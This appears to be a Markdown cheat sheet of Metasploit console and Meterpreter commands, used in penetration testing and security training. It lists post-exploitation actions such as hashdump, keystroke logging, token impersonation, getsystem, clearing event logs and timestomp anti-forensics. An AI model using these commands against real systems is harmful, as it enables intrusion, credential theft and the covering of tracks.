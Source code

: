 # Metasploit Framework (MSF) Commands

## MSFconsole Commands

| Command | Description |
|---------|-------------|
| `show exploits` | Show all exploits within the Framework. |
| `show payloads` | Show all payloads within the Framework. |
| `show auxiliary` | Show all auxiliary modules within the Framework. |
| `search <name>` | Search for exploits or modules within the Framework. |
| `info` | Load information about a specific exploit or module. |
| `use <name>` | Load an exploit or module (example: `use windows/smb/psexec`). |
| `use <number>` | Load an exploit by using the index number displayed after the search command. |
| `set LHOST <ip>` | Your local host’s IP address reachable by the target. |
| `set RHOST <ip>` | The remote host or the target. |
| `set <option> <value>` | Set a specific value (e.g., `set LHOST 192.168.1.10`). |
| `setg <option> <value>` | Set a specific value globally. |
| `show options` | Show the options available for a module or exploit. |
| `show targets` | Show the platforms supported by the exploit. |
| `set target <number>` | Specify a specific target index. |
| `set payload <payload>` | Specify the payload to use. |
| `show advanced` | Show advanced options. |
| `set autorunscript migrate -f` | Automatically migrate to a separate process upon exploit completion. |
| `check` | Determine whether a target is vulnerable. |
| `exploit` | Execute the module or exploit. |
| `exploit -j` | Run the exploit in the background. |
| `exploit -z` | Do not interact with the session after exploitation. |
| `sessions -l` | List available sessions. |
| `sessions -s <script>` | Run a specific Meterpreter script on all live sessions. |
| `sessions -K` | Kill all live sessions. |
| `db_create <name>` | Create a database to use with database-driven attacks. |
| `db_nmap <nmap_options>` | Use Nmap and place results in a database. |
| `db_destroy` | Delete the current database. |

## Meterpreter Commands

| Command | Description |
|---------|-------------|
| `help` | Open Meterpreter usage help. |
| `sysinfo` | Show system information on the compromised target. |
| `ls` | List files and folders on the target. |
| `use priv` | Load the privilege extension. |
| `ps` | Show all running processes. |
| `migrate <PID>` | Migrate to a specific process. |
| `use incognito` | Load incognito functions (for token stealing). |
| `list_tokens -u` | List available tokens on the target by user. |
| `impersonate_token <DOMAIN\\USERNAME>` | Impersonate a token available on the target. |
| `getsystem` | Attempt to elevate permissions to SYSTEM-level access. |
| `shell` | Drop into an interactive shell. |
| `execute -f cmd.exe -i` | Execute cmd.exe and interact with it. |
| `upload <filename>` | Upload a file to the target. |
| `download <filename>` | Download a file from the target. |
| `keyscan_start` | Start sniffing keystrokes on the remote target. |
| `keyscan_dump` | Dump captured keystrokes. |
| `hashdump` | Dump all password hashes. |
| `sniffer_interfaces` | List available interfaces on the target. |
| `sniffer_start <interfaceID>` | Start sniffing on the remote target. |
| `add_user <username> <password> -h <ip>` | Add a user on the remote target. |
| `clearev` | Clear the event logs on the target machine. |
| `timestomp` | Change file attributes (anti-forensics measure). |
| `reboot` | Reboot the target machine. |

---

